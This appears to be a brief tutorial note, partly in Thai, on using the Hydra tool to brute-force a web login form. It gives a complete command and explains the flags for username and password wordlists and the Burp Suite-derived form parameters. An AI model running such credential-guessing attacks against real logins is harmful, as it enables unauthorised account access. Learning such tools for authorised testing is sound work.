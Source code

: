 # HAILHYDRA
# how to hydra  </br>
$ hydra -L username.txt -p aaa 192.168.x.x -V http-form-post "/PATH/login:username=^USER^&password=^PASS^:Invalid username" </br>

--username </br>
-l ชื่อหนึ่งชื่อ </br>
-L wordlist </br>

--password </br>
-p รหัสหนึ่งรหัส </br>
-P wordlist </br>

-V โฃว์ รหัส พาส ระหว่างเดา </br>

path:parameters:F </br>
ในส่วนนี้ใช้ burb suit ดูได้ </br>
"/PATH/login.php     :   username=^USER^&password=^PASS^    :      F=Invalid username" </br>

username, password มาจากเว็บ </br>

^USER^ --> username ที่ต้องการให้เดา </br>
^PASS^ --> password ที่ต้องการให้เดา
